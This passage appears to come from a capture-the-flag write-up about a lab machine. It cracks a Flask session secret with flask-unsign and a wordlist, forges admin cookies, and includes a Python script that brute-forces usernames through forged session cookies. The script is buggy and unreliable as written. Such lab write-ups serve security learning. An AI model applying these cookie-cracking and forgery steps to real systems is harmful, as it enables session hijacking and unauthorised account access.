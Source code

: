 ```
└─$ flask-unsign --wordlist ~/Downloads/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiVGhlUmVkVGVhIn0.YweJwg.C0OJGviF9xc3MJ5m49_WCs4eS3Y' --no-literal-eval 
[*] Session decodes to: {'logged_in': True, 'username': 'TheRedTea'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'
```
Okay the secret now is "secret123"

Then I tried with admin. 
```bash
└─$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YweNmw.AOrN2nApZyyeBaZ4oHmvQxDJX7g
```
Nope, that didn't work.

I decided to craft a script to brute force usernames: 

```python 
import requests
import sys
import subprocess


if len(sys.argv) < 2:
    print("Need wordlist")
    sys.exit()


def looper():
   wordlist = sys.argv[1]
 
   url = 'http://10.10.11.160:5000/notes'
   f = open(wordlist, "r")
   for line in f.readlines():
        line = line.strip('\n')
        cookie = subprocess.run("flask-unsign --sign --cookie '{'logged_in': True, 'username': '"+line+"'}' --secret 'secret123'", shell=True, stdout=True)
        print(line)
        headers = {'SetCookie': f'session={cookie}'}
        r = requests.get(url, headers=headers)
        content = r.text
        try:
            if "Unauthorized, Please login" in content: 
                print("Nope")
                pass
            elif "Noter Premium Membership" in content: 
                print("That was it")
        except:
            print("error")


if __name__ == "__main__":
    looper()
```
